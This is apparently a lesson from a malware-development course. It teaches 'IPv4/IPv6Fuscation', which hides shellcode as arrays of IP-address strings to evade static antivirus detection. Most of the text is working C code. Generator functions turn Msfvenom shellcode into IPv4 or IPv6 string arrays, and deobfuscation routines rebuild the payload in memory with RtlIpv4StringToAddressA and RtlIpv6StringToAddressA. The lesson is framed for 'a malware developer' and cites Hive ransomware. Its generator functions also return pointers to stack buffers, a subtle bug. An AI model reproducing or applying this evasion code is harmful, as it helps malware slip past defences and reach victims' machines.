


Introduction
At this stage of the learning path, one should have a fundamental understanding of payload encryption. This module will explore another method of evading static detection using payload obfuscation.
A malware developer should have several tools available at their disposal to achieve the same task in order to stay unpredictable. Payload obfuscation can be seen as a different "tool" when compared to payload encryption, yet both are ultimately used for the same purpose.
After going through this module, one should be able to use advanced payload obfuscation techniques, some of which are being used in the wild, such as in Hive ransomware.
The code shown in this module and upcoming modules should be compiled in release mode. Compiling in debug mode will result in the binary not working correctly.
What is IPv4/IPv6Fuscation
IPv4/IPv6Fuscation is an obfuscation technique where the shellcode's bytes are converted to IPv4 or IPv6 strings. Let's use a few bytes from the Msfvenom x64 calc shellcode and analyze how they can be converted into either IPv4 or IPv6 strings. For this example, the following bytes are used:
FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51.
FC is 252 in decimal, 48 is 72, 83 is 131 and E4 is 228. Therefore, the first 4 bytes of the sample shellcode, FC 48 83 E4 will be 252.72.131.228.FC48:83E4:F0E8:C000:0000:4151:4150:5251.IPv4Fuscation Implementation
Now that the logic has been explained, this section will dive into the implementation of IPv4Fuscation. A few points about the code snippet below:
GenerateIpv4 is a helper function that takes 4 shellcode bytes and uses sprintf to generate the IPv4 address.// Function takes in 4 raw bytes and returns them in an IPv4 string format
char* GenerateIpv4(int a, int b, int c, int d) {
unsigned char Output [32];
// Creating the IPv4 address and saving it to the 'Output' variable
sprintf(Output, "%d.%d.%d.%d", a, b, c, d);
// Optional: Print the 'Output' variable to the console
// printf("[i] Output: %s\n", Output);
return (char*)Output;
}
// Generate the IPv4 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv4Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 4, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 4 != 0){
return FALSE;
}
printf("char* Ipv4Array[%d] = { \n\t", (int)(ShellcodeSize / 4));
// We will read one shellcode byte at a time, when the total is 4, begin generating the IPv4 address
// The variable 'c' is used to store the number of bytes read. By default, starts at 4.
int c = 4, counter = 0;
char* IP = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 4 we enter this if statement to begin generating the IPv4 address
if (c == 4) {
counter++;
// Generating the IPv4 address from 4 bytes which begin at i until [i + 3]
IP = GenerateIpv4(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3]);
if (i == ShellcodeSize - 4) {
// Printing the last IPv4 address
printf("\"%s\"", IP);
break;
}
else {
// Printing the IPv4 address
printf("\"%s\", ", IP);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 8 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}IPv6Fuscation Implementation
When using IPv6Fuscation, the shellcode should be a multiple of 16. Again, it's possible to create a function that pads the shellcode if it doesn't meet that requirement.
// Function takes in 16 raw bytes and returns them in an IPv6 address string format
char* GenerateIpv6(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {
// Each IPv6 segment is 32 bytes
char Output0[32], Output1[32], Output2[32], Output3[32];
// There are 4 segments in an IPv6 (32 * 4 = 128)
char result[128];
// Generating output0 using the first 4 bytes
sprintf(Output0, "%0.2X%0.2X:%0.2X%0.2X", a, b, c, d);
// Generating output1 using the second 4 bytes
sprintf(Output1, "%0.2X%0.2X:%0.2X%0.2X", e, f, g, h);
// Generating output2 using the third 4 bytes
sprintf(Output2, "%0.2X%0.2X:%0.2X%0.2X", i, j, k, l);
// Generating output3 using the last 4 bytes
sprintf(Output3, "%0.2X%0.2X:%0.2X%0.2X", m, n, o, p);
// Combining Output0,1,2,3 to generate the IPv6 address
sprintf(result, "%s:%s:%s:%s", Output0, Output1, Output2, Output3);
// Optional: Print the 'result' variable to the console
// printf("[i] result: %s\n", (char*)result);
return (char*)result;
}
// Generate the IPv6 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv6Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 16, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0){
return FALSE;
}
printf("char* Ipv6Array [%d] = { \n\t", (int)(ShellcodeSize / 16));
// We will read one shellcode byte at a time, when the total is 16, begin generating the IPv6 address
// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
int c = 16, counter = 0;
char* IP = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the IPv6 address
if (c == 16) {
counter++;
// Generating the IPv6 address from 16 bytes which begin at i until [i + 15]
IP = GenerateIpv6(
pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
);
if (i == ShellcodeSize - 16) {
// Printing the last IPv6 address
printf("\"%s\"", IP);
break;
}
else {
// Printing the IPv6 address
printf("\"%s\", ", IP);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 3 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}IPv4/IPv6Fuscation Deobfuscation
Once the obfuscated payload has evaded static detection, it will need to be deobfuscated to be executed. The deobfuscation process will reverse the obfuscation process, allowing an IP address to generate bytes instead of using bytes to generate an IP address. Performing deobfuscation will require the following:
Deobfuscating IPv4Fuscation Payloads
The Ipv4Deobfuscation function takes in an Ipv4Array as the first parameter which is an array of IPv4 addresses. The second parameter is the NmbrOfElements which is the number of IPv4 addresses in the Ipv4Array array in order to loop through the size of the array. The last 2 parameters, ppDAddress and pDSize will be used to store the deobfuscated payload and its size, respectively.
The deobfuscation process works by first grabbing the address of RtlIpv4StringToAddressA using GetProcAddress and GetModuleHandle. Next, a buffer is allocated which will eventually store the deobfuscated payload of size NmbrOfElements * 4. The reasoning behind that size is that each IPv4 will generate 4 bytes.
Moving onto the for loop, it starts by defining a new variable, TmpBuffer, and setting it to be equal to pBuffer. Next, TmpBuffer is passed to RtlIpv4StringToAddressA as its fourth parameter, which is where the binary representation of the IPv4 address will be stored. The RtlIpv4StringToAddressA function will write 4 bytes to the TmpBuffer buffer, therefore TmpBuffer is incremented by 4, after, to allow the next 4 bytes to be written to it without overwriting the previous bytes.
Finally, ppDAddress and pDSize are set to hold the base address of the deobfuscated payload as well as its size.
typedef NTSTATUS (NTAPI* fnRtlIpv4StringToAddressA)(
PCSTR S,
BOOLEAN Strict,
PCSTR* Terminator,
PVOID Addr
);
BOOL Ipv4Deobfuscation(IN CHAR* Ipv4Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
PCSTR Terminator = NULL;
NTSTATUS STATUS = NULL;
// Getting RtlIpv4StringToAddressA address from ntdll.dll
fnRtlIpv4StringToAddressA pRtlIpv4StringToAddressA = (fnRtlIpv4StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv4StringToAddressA");
if (pRtlIpv4StringToAddressA == NULL){
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of IPv4 addresses * 4
sBuffSize = NmbrOfElements * 4;
// Allocating memory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
if (pBuffer == NULL){
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Setting TmpBuffer to be equal to pBuffer
TmpBuffer = pBuffer;
// Loop through all the IPv4 addresses saved in Ipv4Array
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one IPv4 address at a time
// Ipv4Array[i] is a single ipv4 address from the array Ipv4Array
if ((STATUS = pRtlIpv4StringToAddressA(Ipv4Array[i], FALSE, &Terminator, TmpBuffer)) != 0x0) {
// if it failed
printf("[!] RtlIpv4StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv4Array[i], STATUS);
return FALSE;
}
// 4 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 4 to store the upcoming 4 bytes
TmpBuffer = (PBYTE)(TmpBuffer + 4);
}
// Save the base address & size of the deobfuscated payload
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}The image below shows the deobfuscation process successfully running.

Deobfuscating IPv6Fuscation Payloads
Everything in the deobfuscation process for IPv6 is the same as IPv4 with the only two main differences being:
RtlIpv6StringToAddressA is used instead of RtlIpv4StringToAddressA.typedef NTSTATUS(NTAPI* fnRtlIpv6StringToAddressA)(
PCSTR S,
PCSTR* Terminator,
PVOID Addr
);
BOOL Ipv6Deobfuscation(IN CHAR* Ipv6Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
PCSTR Terminator = NULL;
NTSTATUS STATUS = NULL;
// Getting RtlIpv6StringToAddressA address from ntdll.dll
fnRtlIpv6StringToAddressA pRtlIpv6StringToAddressA = (fnRtlIpv6StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv6StringToAddressA");
if (pRtlIpv6StringToAddressA == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of IPv6 addresses * 16
sBuffSize = NmbrOfElements * 16;
// Allocating memory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
if (pBuffer == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
TmpBuffer = pBuffer;
// Loop through all the IPv6 addresses saved in Ipv6Array
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one IPv6 address at a time
// Ipv6Array[i] is a single IPv6 address from the array Ipv6Array
if ((STATUS = pRtlIpv6StringToAddressA(Ipv6Array[i], &Terminator, TmpBuffer)) != 0x0) {
// if it failed
printf("[!] RtlIpv6StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv6Array[i], STATUS);
return FALSE;
}
// 16 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
TmpBuffer = (PBYTE)(TmpBuffer + 16);
}
// Save the base address & size of the deobfuscated payload
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}The image below shows the deobfuscation process successfully running.
